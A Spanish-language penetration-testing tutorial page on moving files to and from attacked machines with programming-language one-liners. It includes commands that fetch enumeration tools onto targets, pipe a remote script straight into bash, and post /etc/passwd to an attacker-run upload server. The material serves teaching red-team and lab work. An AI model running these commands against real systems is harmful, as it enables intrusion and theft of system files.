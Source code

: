 # Transferring Files with Code

Es común encontrar diferentes lenguajes de programación instalados en las máquinas que estamos atacando. Lenguajes de programación como Python, PHP, Perl y Ruby son comunes en distribuciones Linux, aunque también pueden estar instalados en Windows, aunque esto es mucho menos frecuente.

Podemos usar algunas aplicaciones predeterminadas de Windows, como `cscript` y `mshta`, para ejecutar código JavaScript o VBScript. JavaScript también se puede ejecutar en hosts Linux.

Según Wikipedia, existen alrededor de 700 lenguajes de programación, y podemos crear código en cualquiera de estos lenguajes para descargar, cargar o ejecutar instrucciones en el sistema operativo. Esta sección proporcionará algunos ejemplos usando lenguajes de programación comunes.

## **Python**

Python es un lenguaje de programación popular. Actualmente, se soporta la versión 3, pero es posible encontrar servidores donde aún exista Python versión 2.7. Python puede ejecutar "one-liners" desde la línea de comandos del sistema operativo usando la opción `-c`. Veamos algunos ejemplos:

### **Python 2 - Descargar archivo**

```bash
sherlock28@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### **Python 3 - Descargar archivo**

```bash
sherlock28@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## **PHP**

PHP también es muy prevalente y proporciona múltiples métodos para transferir archivos. Según los datos de W3Techs, PHP es utilizado por el 77.4% de todos los sitios web con un lenguaje de programación del lado del servidor conocido. Aunque la información no es precisa y el número puede ser ligeramente menor, a menudo encontraremos servicios web que usan PHP cuando realizamos una operación ofensiva.

Veamos algunos ejemplos de cómo descargar archivos usando PHP.

En el siguiente ejemplo, usaremos el módulo `file_get_contents()` de PHP para descargar contenido de un sitio web, combinado con el módulo `file_put_contents()` para guardar el archivo en un directorio. PHP se puede usar para ejecutar "one-liners" desde la línea de comandos del sistema operativo usando la opción `-r`.

### **PHP - Descargar archivo con `file_get_contents()`**

```bash
sherlock28@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Una alternativa a `file_get_contents()` y `file_put_contents()` es el módulo `fopen()`. Podemos usar este módulo para abrir una URL, leer su contenido y guardarlo en un archivo.

### **PHP - Descargar archivo con `fopen()`**

```bash
sherlock28@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

También podemos enviar el contenido descargado a una tubería, de manera similar al ejemplo sin archivos que ejecutamos en la sección anterior usando `cURL` y `wget`.

### **PHP - Descargar un archivo y enviarlo a bash**

```bash
sherlock28@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

> **Nota**: La URL se puede usar como nombre de archivo con la función `@file` si los envoltorios de `fopen` han sido habilitados.

## Otros Lenguajes

Ruby y Perl son otros lenguajes populares que también se pueden usar para transferir archivos. Ambos lenguajes admiten la ejecución de "one-liners" desde la línea de comandos del sistema operativo usando la opción `-e`.

### **Ruby - Descargar un archivo**

```bash
sherlock28@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

### **Perl - Descargar un archivo**

```bash
sherlock28@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

JavaScript es un lenguaje de programación que permite implementar características complejas en páginas web. Como otros lenguajes, también se puede usar para varias tareas, incluyendo la descarga de archivos.

El siguiente código en JavaScript está basado en un post y se puede usar para descargar un archivo. Creamos un archivo llamado `wget.js` y guardamos el siguiente contenido:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Podemos ejecutar el siguiente comando desde un símbolo del sistema de Windows o terminal de PowerShell para ejecutar nuestro código JavaScript y descargar un archivo.

### **Descargar un archivo usando JavaScript y `cscript.exe`**

```bash
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

VBScript ("Microsoft Visual Basic Scripting Edition") es un lenguaje de scripting desarrollado por Microsoft basado en Visual Basic. VBScript ha sido instalado por defecto en todas las versiones de escritorio de Microsoft Windows desde Windows 98.

El siguiente ejemplo en VBScript se puede utilizar para descargar un archivo. Creamos un archivo llamado `wget.vbs` y guardamos el siguiente contenido:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Podemos usar el siguiente comando desde un símbolo del sistema de Windows o terminal de PowerShell para ejecutar nuestro código VBScript y descargar un archivo.

### **Descargar un archivo usando VBScript y `cscript.exe`**

```bash
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/
```

## Operaciones de Carga utilizando Python3

Si queremos cargar un archivo, necesitamos entender las funciones de un lenguaje de programación específico para realizar esta operación. El módulo `requests` de Python3 permite enviar solicitudes HTTP (GET, POST, PUT, etc.) usando Python. Podemos utilizar el siguiente código si queremos cargar un archivo en nuestro servidor de carga Python3.

### **Iniciar el Módulo de Carga en Python**

```bash
sherlock28@htb[/htb]$ python3 -m uploadserver
```

```arduino
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### **Cargar un archivo usando un One-liner en Python**

```bash
sherlock28@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Vamos a dividir este one-liner en varias líneas para entender mejor cada parte.

```python
# Para usar la función requests, primero debemos importar el módulo.
import requests 

# Definir la URL de destino donde cargaremos el archivo.
URL = "http://192.168.49.128:8000/upload"

# Definir el archivo que queremos leer, abrirlo y guardarlo en una variable.
file = open("/etc/passwd", "rb")

# Usar una solicitud POST de requests para cargar el archivo.
r = requests.post(URL, files={"files": file})
```

Podemos hacer lo mismo con cualquier otro lenguaje de programación. Una buena práctica es elegir uno e intentar crear un programa de carga.

## Recapitulación de la Sección

Entender cómo podemos usar código para descargar y cargar archivos puede ayudarnos a alcanzar nuestros objetivos durante un ejercicio de red team, una prueba de penetración, una competencia CTF, un ejercicio de respuesta a incidentes, una investigación forense o incluso en nuestro trabajo diario como administradores de sistemas.
